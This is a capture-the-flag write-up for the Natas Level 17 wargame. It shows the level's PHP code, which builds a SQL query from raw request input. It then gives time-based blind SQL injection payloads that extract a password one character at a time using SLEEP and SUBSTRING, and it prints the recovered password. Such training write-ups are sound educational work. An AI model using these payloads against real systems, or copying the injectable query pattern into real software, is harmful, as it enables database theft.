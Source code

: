# Natas Level 17
This level deals with time based SQL Injection.

## Quest
We are greeted with a simple webpage
![](./images/Level17.png)

Below is the backend code 
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);      // We get no output whatsoever
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

<br/><br/>
## Solution
Reading the code, we can say that we are not presented with any output whatever maybe our input.
So, for now only one thing comes to my mind - <span id=green>Time Based SQL Injection.</span><br/>

<br/>
Our Payload -> `username=natas18" AND SLEEP(10);#`
We recieve a delayed response if username `natas18` exists, which does and so our response comes after 10 seconds
![](./images/Level17_solution.png)

Now we build a little complex query:
  Our Payload -> `username=natas18" AND IF(ASCII('a')=97, SLEEP(10),0);#`
If username `natas18` exists and ascii code of 'a' is 97, return a delayed response. (We get delayed response)
![](./images/Level17.1_solution.png)


So, our Final payload to smuggle passwords is as follow:<br/>
    `username=natas18" AND IF(ASCII(SUBSTRING(password,1,1))=97,SLEEP(10),0);#`
![](./images/Level17.2_solution.png)
Above, we found that first character of our password has ascii code 120, i.e. `x`. (using Burp intruder)
Also note that we filter using "_Response recieved_" column, that conveys the time interval b/w request and response.

Burp intruder settings are exactly same as we did in [Level 15](./Level15.md)

Repeat this 32 times, and we have our password. -> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
